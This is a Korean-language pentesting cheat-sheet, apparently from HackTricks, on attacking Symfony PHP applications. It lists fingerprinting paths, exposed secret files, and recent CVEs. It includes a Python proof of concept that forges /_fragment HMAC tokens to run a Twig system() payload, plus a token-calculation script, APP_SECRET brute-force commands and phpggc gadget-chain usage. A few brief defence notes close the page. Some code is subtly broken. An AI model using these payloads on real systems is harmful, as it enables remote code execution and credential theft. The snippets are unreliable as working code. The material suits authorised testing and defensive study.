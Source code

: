 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony는 가장 널리 사용되는 PHP 프레임워크 중 하나로, 기업, 전자상거래 및 CMS 타겟(Drupal, Shopware, Ibexa, OroCRM … 모두 Symfony 구성 요소를 포함함)의 평가에서 정기적으로 등장합니다. 이 페이지는 Symfony 애플리케이션을 발견할 때 체크리스트에 포함해야 할 공격적인 팁, 일반적인 잘못된 구성 및 최근 취약점을 수집합니다.

> 역사적 참고: 생태계의 큰 부분이 여전히 **5.4 LTS** 브랜치를 실행하고 있습니다 (EOL **2025년 11월**). 많은 2023-2025 보안 권고가 패치 릴리스에서만 수정되므로 정확한 마이너 버전을 항상 확인하세요 (예: 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP 응답 헤더: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` 또는 `sf_redirect`, `sf_session`, `MOCKSESSID`로 시작하는 쿠키.
* 소스 코드 유출(`composer.json`, `composer.lock`, `/vendor/…`)은 종종 정확한 버전을 드러냅니다:
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Symfony에만 존재하는 공개 경로:
* `/_profiler`   (Symfony **Profiler** 및 디버그 툴바)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (예쁜 오류 페이지)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (4.0 이전 개발 프론트 컨트롤러)
* Wappalyzer, BuiltWith 또는 ffuf/feroxbuster 단어 목록: `symfony.txt` → `/_fragment`, `/_profiler`, `.env`, `.htaccess`를 찾으세요.

### Interesting files & endpoints
| Path | Why it matters |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | 자주 잘못 배포됨 → `APP_SECRET`, DB 자격 증명, SMTP, AWS 키 유출 |
| `/.git`, `.svn`, `.hg` | 소스 공개 → 자격 증명 + 비즈니스 로직 |
| `/var/log/*.log`, `/log/dev.log` | 웹 루트 잘못 구성으로 스택 추적 노출 |
| `/_profiler` | 전체 요청 기록, 구성, 서비스 컨테이너, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | ESI/HInclude에 의해 사용되는 진입점. `APP_SECRET`을 알면 남용 가능 |
| `/vendor/phpunit/phpunit/phpunit` | 접근 가능 시 PHPUnit RCE (CVE-2017-9841) |
| `/index.php/_error/{code}` | 지문 인식 및 때때로 예외 추적 유출 |

---

## High-impact Vulnerabilities (2023-2025)

### 1. APP_SECRET 유출 ➜ RCE via `/_fragment` (일명 “secret-fragment”)
* **CVE-2019-18889**에서 유래했지만 *여전히* 디버그가 활성화되어 있거나 `.env`가 노출된 현대 타겟에서 나타납니다.
* 32자 `APP_SECRET`을 알게 되면 HMAC 토큰을 생성하고 내부 `render()` 컨트롤러를 남용하여 임의의 Twig를 실행합니다:
```python
# PoC – 비밀이 필요함
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # Twig에서 RCE
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* 훌륭한 작성 및 악용 스크립트: Ambionics 블로그 (참조에 링크됨).

### 2. Windows Process Hijack – CVE-2024-51736
* `Process` 구성 요소가 Windows에서 `PATH` 이전에 현재 작업 디렉토리를 검색했습니다. 공격자가 쓰기 가능한 웹 루트에 `tar.exe`, `cmd.exe` 등을 업로드하고 `Process`를 트리거하면 (예: 파일 추출, PDF 생성) 명령 실행을 얻습니다.
* 5.4.50, 6.4.14, 7.1.7에서 패치됨.

### 3. Session-Fixation – CVE-2023-46733
* 인증 가드가 로그인 후 기존 세션 ID를 재사용했습니다. 공격자가 피해자가 인증하기 **전에** 쿠키를 설정하면 로그인 후 계정을 탈취합니다.

### 4. Twig sandbox XSS – CVE-2023-46734
* 사용자 제어 템플릿(관리 CMS, 이메일 빌더)을 노출하는 애플리케이션에서 `nl2br` 필터를 남용하여 샌드박스를 우회하고 JS를 주입할 수 있습니다.

### 5. Symfony 1 가젯 체인 (여전히 레거시 앱에서 발견됨)
* `phpggc symfony/1 system id`는 `sfNamespacedParameterHolder`와 같은 클래스에서 unserialize()가 발생할 때 RCE를 유발하는 Phar 페이로드를 생성합니다. 파일 업로드 엔드포인트 및 `phar://` 래퍼를 확인하세요.

{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### 약한 `APP_SECRET`에 대한 무차별 대입 공격
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
`bin/console`에 접근할 수 있는 경우 `php-fpm` 또는 직접 CLI 업로드를 통해:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
사용자 정의 직렬화 가젯을 캐시 디렉토리 내에서 사용하거나 다음 요청 시 실행될 악성 Twig 템플릿을 작성하십시오.

---

## 방어 노트
1. **디버그를 배포하지 마십시오** (`APP_ENV=dev`, `APP_DEBUG=1`); 웹 서버 구성에서 `/app_dev.php`, `/_profiler`, `/_wdt`를 차단하십시오.
2. 비밀을 env 변수 또는 `vault/secrets.local.php`에 저장하고, *절대* 문서 루트를 통해 접근 가능한 파일에 저장하지 마십시오.
3. 패치 관리를 시행하십시오 – Symfony 보안 권고에 구독하고 최소한 LTS 패치 수준을 유지하십시오.
4. Windows에서 실행하는 경우, 즉시 CVE-2024-51736을 완화하기 위해 업그레이드하거나 `open_basedir`/`disable_functions` 방어 깊이를 추가하십시오.

---

### 유용한 공격 도구
* **ambionics/symfony-exploits** – 비밀 조각 RCE, 디버거 경로 발견.
* **phpggc** – Symfony 1 & 2를 위한 기성 가젯 체인.
* **sf-encoder** – `_fragment` HMAC을 계산하기 위한 작은 도우미 (Go 구현).

## 참조
* [Ambionics – Symfony “secret-fragment” 원격 코드 실행](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony 보안 권고 – CVE-2024-51736: Windows 프로세스 구성 요소에서의 명령 실행 탈취](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}

